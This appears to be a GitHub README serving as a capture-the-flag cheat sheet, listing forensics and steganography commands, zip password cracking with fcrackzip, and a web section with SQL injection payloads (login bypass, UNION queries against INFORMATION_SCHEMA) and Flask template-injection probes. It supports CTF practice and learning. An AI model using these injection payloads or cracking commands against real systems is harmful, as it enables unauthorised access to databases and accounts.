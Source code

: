 # CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
### [Forensics, Linux Tools and Commands](#linux)
### [Web](#web)
### [Misc](#misc)

## <a name = "linux">Basic linux tools and Commands</a>
* binwalk -e <filenam> : //Extracts hidden files
* steghide extract -sf <filename> : //Extracts hidden text in the image
* xxd <file name> : //Prints the Hex version of file
* grep "element" //finds the element
* strings <filename> // gives the strings hidden in the file
* hexedit <filename> //hexeditor
* java -jar stegsolve.jar 
* pngcheck <filename> //checks if the png file is broken
* tar -xvf <filename> // untars the tar files
* cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
* fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
* ltrace ./file     is a helphul command to see the functioning of a program
also use strace
* cat /proc/(process id)/             
we can see all files running in the process with given process id.
* exiftool for meta data
* use tcpflow -r file  for pcap
* zsteg :- another great stego tool
* john the ripper :- tool for password cracking

## <a name = "web">Web</a>
### SQL injections
* curl "url" --data "username=admin&password='+or+1=1--" && echo 
this command will find the information to username admin stored in database (SQL injection).
* try admin'-- for SQLi.
* '||( SELECT secret FROM user WHERE username = 'a' )||'
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
----------------------------------------------------------------------------------------------------------------------------------------------------------------
*  Postman great tool for web challs
* Robots -->>> url/robots.txt (shows hidden info)
* If a website uses flask, then try using {{ 7*7 }}to see its working, then use {{ config }}, {{request}},{{session}}, {{g}} in the text fields.
* To post requests to php from terminal use curl -X POST "url"

## <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

